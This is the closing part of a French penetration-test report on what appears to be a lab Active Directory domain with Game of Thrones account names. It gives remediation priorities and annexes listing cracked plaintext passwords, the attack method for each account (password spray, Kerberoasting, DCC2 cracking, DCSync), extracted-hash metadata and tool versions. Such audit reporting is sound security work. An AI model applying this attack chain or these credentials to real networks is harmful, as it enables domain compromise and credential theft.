Pour l'organisation cible, les actions prioritaires sont les R01 à R06 (cf. § 10.1), à traiter sous 30 jours. Au-delà des correctifs, la mise en place d'une stratégie de tiering AD et d'une supervision basée sur les événements critiques (R06, R11, R13) doit être inscrite au plan SSI annuel.

---

## 15. Annexes

### 15.1 Credentials obtenus

| Compte | Mot de passe | Domaine | Méthode |
|--------|-------------|---------|---------|
| `hodor` | `hodor` | NORTH | Password spray user=password |
| `samwell.tarly` | `Heartsbane` | NORTH | Champ `description` AD |
| `jon.snow` | `iknownothing` | NORTH | Kerberoasting + hashcat |
| `robb.stark` | sexywolfy | NORTH | DCC2 cache CASTELBLACK → hashcat |
| Tous comptes NORTH | (hashs NT) | NORTH | DCSync via robb.stark |

### 15.2 Hashs NT extraits (DCSync NORTH)

Hashs anonymisés (le NTDS complet est stocké dans `loot/dcsync-north-CG-13-05-2026.ntds`, exclu du repo public via `.gitignore`).

| Compte | RID | Type de hash |
|--------|-----|--------------|
| Administrator | 500 | NT + LM |
| krbtgt | 502 | NT + AES256 |
| eddard.stark | 1106 | NT |
| catelyn.stark | 1107 | NT |
| robb.stark | 1108 | NT |
| sansa.stark | 1109 | NT |
| arya.stark | 1110 | NT |
| brandon.stark | 1111 | NT |
| rickon.stark | 1112 | NT |
| samwell.tarly | 1119 | NT |
| jon.snow | 1120 | NT |
| hodor | 1121 | NT |



### 15.3 Versions des outils

| Outil | Version |
|-------|---------|
| Nmap | 7.94 |
| NetExec | 1.x (apt Kali) |
| Impacket | 0.12 |
| Hashcat | 6.2.6 |
| enum4linux-ng | 1.3 |
| smbclient | Samba 4.x |
| GodPotato | 1.20 |
| Kali Linux | 2026.1 |

---